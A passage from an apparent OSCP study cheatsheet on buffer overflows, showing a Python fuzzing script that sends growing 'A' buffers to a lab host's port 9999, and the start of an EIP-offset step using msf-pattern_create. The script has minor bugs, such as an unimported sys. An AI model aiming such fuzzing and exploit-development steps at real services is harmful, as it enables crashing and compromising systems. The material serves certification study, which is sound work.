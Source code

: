 ```yaml
---
title: "Buffer Overflow"
Description: OSCP Buffer Overflow Cheatsheet
draft: false
images: []
menu:
  docs:
    parent: "Privesc"
weight: 1
toc: true
content: bufferoverflow
---
```


### <span style="color:#d32e9d">Step 1</span>
Find the overflow length

```python
#!/usr/bin/python

import socket

ip_adress = '192.168.20.117'
port = 9999

if __name__ == '__main__':

        buffer = ['A']
        counter = 200

        while len(buffer) < 32:
                buffer.append('A'*counter)
                counter += 100

        print "Enviando Payloads"

        for string in buffer:
                print ("%s bytes" % len(string))

                try:
                        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                        s.connect((ip_adress, port))

                        data = s.recv(1024)
                        s.send("%s\r\n" % string)
                        data = s.recv(1024)

                except:
                        print "\n[*] No me la container bro"
                        sys.exit(1)
```
### <span style="color:#d32e9d">Step 2
Find the length to hit EIP
```bash
msf-pattern_create -l XXX
```
**Note:** Change the buffer content with your pattern_create output
```python
#!/usr/bin/python

import socket

ip_adress = '192.168.20.117'
```